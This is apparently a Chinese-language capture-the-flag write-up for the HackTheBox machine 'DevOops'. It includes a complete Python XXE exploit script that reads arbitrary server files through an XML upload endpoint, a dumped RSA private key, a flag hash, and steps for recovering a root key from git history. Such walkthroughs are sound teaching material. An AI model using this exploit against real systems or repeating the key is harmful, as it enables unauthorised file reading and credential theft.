 ```yaml
---
layout: post
title:  "HackTheBox >_ DevOops_91"
description: walkthrough
category: HackTheBox
---
```


# DevOops_91

![]({{ site.url }}/assets/DevOops_91.assets/20201117100619169_336339460.png)

打目录出来upload

![]({{ site.url }}/assets/DevOops_91.assets/20201117100653497_680345316.png)


上传xml那首先肯定是xee注入。/
注入方法不再叙述

根据xee多次注入制作了一个xee注入读取文件的py脚本。标红为注意目标不同的其他机器可能需要修改的地方，蓝色为如果需要调试则去掉注释符，使脚本可以调试。调试器使用burpsuite，代理端口8888开启抓取。把包转repeater即可进行舒服的调试。不需要调试则直接注释掉，或者把抓包off掉

文件读取器xeeFileReader.py代码

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-



# Usage: python3 xeeFileReader.py
# Which File You Want?>/etc/passwd
# Usage2: python3 xeeFileReader.py /etc/passwd | grep -v -e nologin -e sync -e false

import requests
import re
import sys



URL = 'http://10.10.10.91:5000/upload'
REGEX = re.compile(r' Subject: (.*?)\n Content:', re.DOTALL)






def getFileContents(filename):
    xxe = f'''<?xml version="1.0" encoding="utf-8"?>
        <!DOCTYPE foo [
            <!ELEMENT foo ANY>
            <!ENTITY xxe SYSTEM "file://{filename}">
        ]>



        <entry>
            <Author>xxxxx</Author>
            <Subject>&xxe;</Subject>
            <Content>xxxxx</Content>
        </entry>'''



    files = {'file': ('xxe.xml', xxe, 'text/xml')}  # filename, content_type and headers
    #proxies = {'http': 'http://127.0.0.1:8888'}  # debug proxy (e. g. Burp)
    res = requests.post(URL, files=files)#, proxies=proxies, timeout=0.5  # debug proxy (e. g. Burp)



    fileContents = None
    if res.status_code == 200:
        try:
            fileContents = REGEX.search(res.text).group(1).strip()
        except AttributeError:
            pass



    return fileContents






def interactive():
    while True:
        filename = input('Which File You Want?> ').strip()
        try:
            fileContents = getFileContents(filename)
        except Exception as e:
            print('EXCEPTION: ' + str(e), end='\n\n')
        else:
            if fileContents:
                print(fileContents, end='\n\n')






def nonInteractive(filename):
    fileContents = None
    try:
        fileContents = getFileContents(filename)
    except Exception as e:
        print('EXCEPTION: ' + str(e))
    return fileContents






if __name__ == '__main__':
    if len(sys.argv) == 1:
        interactive()
    elif len(sys.argv) == 2:
        filename = sys.argv[1]
        fileContents = nonInteractive(filename)
        if fileContents:
            print(fileContents, end='\n\n')
    else:
        print(f'Usage: python3 {sys.argv[0]} [FILENAME]')
```


![]({{ site.url }}/assets/DevOops_91.assets/20201117100952647_1360789384.png)

查看有效用户


`python3 xeeFileReader.py /etc/passwd | grep -v -e nologin -e sync -e false`

![]({{ site.url }}/assets/DevOops_91.assets/20201117101000962_86336338.png)


用户roosa

查看他的ssh密钥

![]({{ site.url }}/assets/DevOops_91.assets/20201117101018219_1503371041.png)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```









![]({{ site.url }}/assets/DevOops_91.assets/20201117101042269_2011979132.png)

c5808e1643e801d40f09ed87cdecc67b

常规操作chmod600，ssh登陆

![]({{ site.url }}/assets/DevOops_91.assets/20201117101057617_1055765862.png)


Roosa在/home/roosa/work/blogfeed/.git中有一个git目录。
在此文件夹中搜索以前的提交，分支等通常是一个好主意。
由于Github储存库已记录了所有更改，因此通常可以找到明显的数据，
这些数据以前是由开发人员“删除”的。在.git文件夹中
运行git log -p，我们可以看到以前提交的日志。
下箭头向下翻页

![]({{ site.url }}/assets/DevOops_91.assets/20201117101132577_1746951120.png)


翻到一个新的密钥。和之前的不同。。

![]({{ site.url }}/assets/DevOops_91.assets/20201117101144152_611052056.png)

q退出

去掉行首加号。另存
测试

![]({{ site.url }}/assets/DevOops_91.assets/20201117101205433_685105238.png)

root





